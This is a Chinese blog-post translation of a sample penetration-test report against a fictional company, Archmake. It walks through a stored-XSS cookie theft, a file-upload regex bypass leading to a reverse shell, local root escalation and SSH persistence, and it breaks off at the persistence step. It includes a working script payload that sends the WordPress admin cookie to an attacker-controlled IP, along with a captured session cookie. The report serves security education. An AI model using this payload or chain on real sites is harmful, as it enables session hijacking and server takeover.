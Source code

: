 ```yaml
---
layout: post
title: "offensive security pentest report 翻译"
description: ""
category: 渗透测试
tags: [report]
---
```

{% include JB/setup %}

## 摘要 ##

Offensive security已经被授权对Archmake的外部网站进行一次渗透测试.测试评估的方式是模拟恶意的攻击者对公司进行目的明确的渗透.主要测试目标包括:

1, 确认一个远程的攻击者能否穿透Archmake的安全防线.

2, 评估安全攻击对公司的订单系统,客户的保密信息以及Archmake其他信息系统可能造成的影响.



## 结果概述 ##

在初期的信息搜集阶段,发现Archmake公司仅仅只有一个web网站和一个邮件服务器.可供攻击的服务比较少.

在对网站的安全评估中,发现它安装了一个有漏洞的WordPress插件.成功利用这个漏洞,取得了WordPress的管理权限.然后反弹了一个交互式的shell并成功提到root权限.

获取了网站服务器的权限之后,开始对内网进行渗透,经过一番尝试,成功获取到了域管理员的权限.之后对内网进行拓扑分析,发现了内网的公司数据库并成功控制.这个数据库不仅存储了订单信息和客户资料,还保存了信用卡相关信息.通过控制这个系统,攻击者可以直接从公司账户提取现金.

## 测试过程 ##

# WordPress漏洞利用 #

在对目标系统进行搜集的时候发现网站采用了wordpress 3.3.1搭建.我们在对WordPress进行代码审计的同时,用WPScan扫描了目标网站,发现一个不安全的插件:


	./wpscan.rb --url www.Archmake.com --enumerate p
	____________________________________________________
	__
	_______
	_____
	\ \
	/ / __ \ / ____|
	\ \ /\ / /| |__) | (___
	___ __ _ _ __
	\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
	\ /\ / | |
	____) | (__| (_| | | | |
	\/ \/
	|_|
	|_____/ \___|\__,_|_| |_| v1.1
	WordPress Security Scanner by ethicalhack3r.co.uk
	Sponsored by the RandomStorm Open Source Initiative
	_____________________________________________________
	| URL: http://www.Archmake.com/
	| Started on Tue Jan 24 18:44:49 2012
	[!] The WordPress theme in use is called "twentyeleven".
	[!] The WordPress "http://www.Archmake.com/readme.html" file exists.
	[!] WordPress version 3.3.1 identified from meta generator.
	[+] Enumerating installed plugins...
	Checking for 2892 total plugins... 100% complete.
	[+] We found 2 plugins:
	Name: relevanssi
	Location: http://www.Archmake.com/wp-content/plugins/relevanssi/
	Directory listing enabled? Yes.
	Name: relevanssi
	Location: http://www.Archmake.com/wp-content/plugins/relevanssi/
	Directory listing enabled? Yes.
	[+] There were 1 vulnerabilities identified from the plugin names:
	[!] Relevanssi 2.7.2 Wordpress Plugin Stored XSS Vulnerability
	* Reference: http://www.exploit-db.com/exploits/16233/
	[+] Finished at Tue Jan 24 18:45:30 2012	  


正如WPScan扫描结果展示的一样,这个Relevanssi插件存在一个XSS漏洞.成功利用这个漏洞可以窃取到管理员的cookies.

第一步,我们在Archmake网站的搜索栏中插入如下代码:

	<script>new Image().src="http://172.16.40.204/p.php?cookie="+document.cookie; </script>

![pic]({{site.img_url}}offensive1.png)


当WordPress管理员点击后台管理面板上的"User Searches"时,脚本就会执行.

![offensive2]({{site.img_url}}offensive2.png)

远程攻击者的服务器上就可以接收到管理员的cookie.

	GET
	/p.php?cookie=wordpress_ed8a4e5dd813c7b5d262130b08955a6a=admin%7C1328098588
	%7C72c3335ad1e783b75bb3d8cf9e85fc9c;%20wp-settings-time-
	1=1327925790;%20wordpress_test_cookie=WP+Cookie+check;%20wordpress_logged_i
	n_ed8a4e5dd813c7b5d262130b08955a6a=admin%7C1328098588%7Caf1bcabca49191de76e
	c45e798ae5ada;%20wp-settings-
	1=editor%3Dhtml;%20wordpress_ed8a4e5dd813c7b5d262130b08955a6a=admin%7C13275
	99469%7C3ada64cf8e918c9a4bf148896181fc63;%20wordpress_logged_in_ed8a4e5dd81
	3c7b5d262130b08955a6a=admin HTTP/1.1

然后使用firefox的cookie编辑器,修改cookie.这样就可以绕过WordPress的登录功能,获得一个管理员会话.

![offensive]({{site.img_url}}offensive3.png)

![offensive]({{site.img_url}}offensive4.png)

获取到后台管理员权限之后,整站的权限就有很多种方法可以得到了.最直接的就是修改WordPress的主题文件.

# WordPress插件任意文件类型上传 #

取得WordPress系统的权限了,接下来可以白盒审计一下,看看是否有其他的漏洞可能被攻击者利用.这里我们审计了WordPress安装的插件.

审计插件的时候发现一个可以允许用户上传头像的插件.

![offensive5]({{site.img_url}}offensive5.png)

通过对这个插件的源码进行审计,发现它是通过一个正则表达式来控制上传文件的类型的.

![offensive6]({{site.img_url}}offensive6.png)

上面这段用来检查上传文件的代码是存在缺陷的.这个正则对字符串进行了一次简单的过滤,而且这是唯一的一个检测文件类型的手段.它的本意是只允许像"Myimage.png"这样的文件名.但是像"Myimage.png.php"这样的文件名也可以成功通过正则的检测,上传到服务器上.

虽然将后续攻击上传到服务器上有很多方法(前面提到过,比如修改主题).但是我们决定采用这个漏洞来上传.一是可以验证一个新的漏洞,二是这样子对服务器所做的更改最小化.


![offensive6]({{site.img_url}}offensive7.png)

为了验证这个上传过程确实跟我们分析的一样,先上传了一个标准的图像文件作为测试.然后上传了一个配置好的反弹shell的php脚本.

执行这个脚本,在攻击者控制的远程服务器上可以获得一个交互式的shell环境.因为这个shell是以webserver的权限的运行的,所以它只有很低的权限.

![offensive6]({{site.img_url}}offensive8.png)

# Linux本地权限提升 #

获得了目标网站服务器的交互式shell之后,下一个目标自然是获得系统的root权限了.

目标系统的相关信息如下:
	Linux version 2.6.32-5-686
	(Debian 2.6.32-38) (ben@decadent.org.uk) (gcc version 4.3.5 (Debian 4.3.5-4)
	) #1 SMP Mon Oct 3 04:15:24 UTC 2011

经过一番资料搜索和测试,发现这个系统存在一个race condition的缺陷.先是通过上传头像的插件上传了利用代码.

![offensive6]({{site.img_url}}offensive9.png)

解压,加执行权限,执行利用程序,成功获得root权限.

![offensive6]({{site.img_url}}offensive10.png)
	
现在,这个网站服务器已经可以作为一个恶意攻击者进行内网渗透的跳板了.如果这是一次真实的攻击,那么这台网站服务器上的任何数据都已经不可信了,因为攻击者可以随意修改控制.

# 长期驻守服务器 #

获得了服务器的管理权限之后,就需要维护一个更加稳定的连接来进行后续的渗透.

通过对该服务器的检查,发现它的ssh服务运行在22000端口.我们决定使用ssh来获得一个稳定的shell,这样子既方便,又不会给服务器带来额外的安全风险.

